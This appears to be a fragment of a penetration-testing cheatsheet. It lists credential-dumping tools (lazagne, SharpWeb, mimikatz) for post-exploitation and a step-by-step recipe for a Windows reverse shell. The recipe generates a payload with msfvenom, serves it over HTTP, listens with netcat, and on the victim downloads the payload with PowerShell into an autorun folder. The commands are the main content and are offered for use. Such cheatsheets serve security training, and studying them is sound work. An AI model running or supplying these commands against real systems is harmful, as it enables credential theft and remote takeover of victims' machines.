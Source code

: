 - POST exploitation 

```bash
lazagne.exe all
SharpWeb.exe
mimikatz.exe
```

- Getting a shell

```bash
# Attacker
msfvenom -p windows/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > program.exe
sudo python -m SimpleHTTPServer 80
sudo nc -lvp <PORT>

# Victim
cd C:\Program Files\Autorun Program\
powershell.exe (New-Object System.Net.WebClient).DownloadFile('http://<IP>/program.exe', '.\program.exe')
```


**useful links**
1. https://www.revshells.com/
2. https://gtfobins.github.io/
3. https://pentest.ws/
4. https://www.exploit-db.com/
5. https://github.com/swisskyrepo/PayloadsAllTheThings
6. https://sushant747.gitbooks.io/total-oscp-guide/content/privilege_escalation_-_linux.htmlhttps://sushant747.gitbooks.io/total-oscp-guide/content/privilege_escalation_-_linux.html
  
  
`Go to prose.io to Edit this cheatsheet`
